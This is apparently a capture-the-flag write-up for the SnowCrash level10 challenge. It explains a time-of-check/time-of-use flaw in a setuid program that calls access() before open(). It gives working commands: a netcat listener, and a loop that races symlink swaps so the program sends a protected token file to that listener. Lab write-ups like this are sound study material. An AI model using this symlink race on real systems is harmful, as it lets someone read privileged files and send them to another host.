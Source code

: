 # level10

We are greeted with two files.  
An _setuid_ executable called `level10` belonging to `flag10`, and executable as this user for everyone in the `level10` group;  
And a `token` file that is only readable and writable by user `flag10`.

The executable takes a path to a file and a network address, and will connect to this address on port 6969 (crudely, given how many times the connection needs to be retried) and output the content of the file there.

On the host computer, assuming the VM is connected to a host-only network on range 192.168.56.1, we run
```sh
nc -l 6969
```

On the VM, let's run
```sh
echo hello > /tmp/hello
./level10 hello 192.168.56.1
```

And we see on our host
```
.*( )*.
hello
```

So since user `flag10` has access to the `token` file and `level10` runs as `flag10`, that should be easy, right?  
Well...
```sh
level10@SnowCrash:~$ ./level10 token 192.168.56.1
You don't have access to token
```
But how?  
There has to be supplemental access control!

Indeed, running `nm level10` reveals that the program is using the `access` function from the libc, which is used to check whether the setuid process' _real_ UID/GID can access a file and preventing us from doing what we want to do.  
However, the man page has something tasty for us.
```
Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

# Resolution

The idea will be to have a naughty _symlimk_ which will point to a file we can access as our regular user, have the program run its `access` call on this harmless file, and then replace the symlink with one that points to our token just before the program attemps to open and print it.

In such a scenario, timing is of the essence and it will be extremely hard to accomplish in a predictable and curated way, so we will be using the dirty but effective method of _making the two things run very quickly on repeat until things eventually click together in order_.

On our host
```sh
nc -lk 6969
```
On our VM, in one terminal
```sh
echo hello > /tmp/hello
while true; do ln -fs /tmp/hello /tmp/symlink; ln -fs ~/token /tmp/symlink; done
```
In another
```sh
while true; do ./level10 /tmp/symlink 192.168.56.1; done
```

And we eventually get what we want.
